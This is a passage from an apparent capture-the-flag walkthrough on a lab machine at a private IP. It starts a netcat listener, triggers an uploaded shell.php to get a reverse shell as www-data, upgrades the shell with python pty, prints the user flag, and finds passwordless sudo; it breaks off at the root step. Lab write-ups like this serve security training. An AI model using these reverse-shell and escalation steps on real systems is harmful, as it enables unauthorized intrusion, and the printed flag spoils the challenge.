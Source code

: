 ### Step 13: Getting a Reverse Shell

Start a netcat listener on your machine:

```bash
nc -lvnp 1234
```

Then trigger the shell by visiting:

```
http://10.10.158.14/[SECRET_DIRECTORY]/shell.php
```

**Success!** We now have a shell as the `www-data` user.

## Post-Exploitation

### Step 14: Initial Access and User Flag

Once we have our shell, let's explore:

```bash
# Upgrade to a better shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

# Check current user
whoami
# Output: www-data

# Look for users
ls /home
# Output: grecia

# Get user flag
cat /home/grecia/user.txt
# Output: 0b6044b7807dd100b9e30f1bd09db53f
```

### Step 15: Privilege Escalation

Let's check what sudo privileges our current user has:

```bash
sudo -l
```

**Output:**
```
User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
```

**This is jackpot!** The `www-data` user can run ANY command as root without a password.

### Step 16: Getting Root Access
